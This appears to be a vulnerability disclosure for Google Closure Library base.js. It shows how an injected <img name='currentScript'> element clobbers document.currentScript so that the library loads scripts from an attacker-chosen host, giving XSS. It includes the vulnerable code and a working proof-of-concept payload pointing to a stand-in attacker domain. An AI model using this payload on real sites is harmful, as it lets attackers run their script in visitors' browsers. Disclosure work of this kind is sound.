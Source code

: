 ## Google Closure Library

### Meta

+ Library: Google Closure
+ Stars: 4.9K
+ Version: v20230103
+ Payload: ```<img name="currentScript" src="https://attack.hulk/base.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js
https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.min.js


### Vulnerable Code Snippet

```javascript
// If we have a currentScript available, use it exclusively.
var currentScript = doc.currentScript;
if (currentScript) {
  var scripts = [currentScript];
} else {
  var scripts = doc.getElementsByTagName('SCRIPT');
}
// Search backwards since the current script is in almost all cases the one
// that has base.js.
for (var i = scripts.length - 1; i >= 0; --i) {
  var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
  var src = script.src;
  var qmark = src.lastIndexOf('?');
  var l = qmark == -1 ? src.length : qmark;
  if (src.slice(l - 7, l) == 'base.js') {
    goog.basePath = src.slice(0, l - 7);
    return;
  }
}
```
```javascript
goog.DebugLoader_.prototype.loadClosureDeps = function() {
// Circumvent addDependency, which would try to transpile deps.js if
// transpile is set to always.
var relPath = 'deps.js';
this.depsToLoad_.push(this.factory_.createDependency(
    goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
this.loadDeps_();
};
```

which eventually gets loaded...


## PoC

```html
<!--Library-->
<script src=https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999/base.js"></img>
<!--Payload-->
```
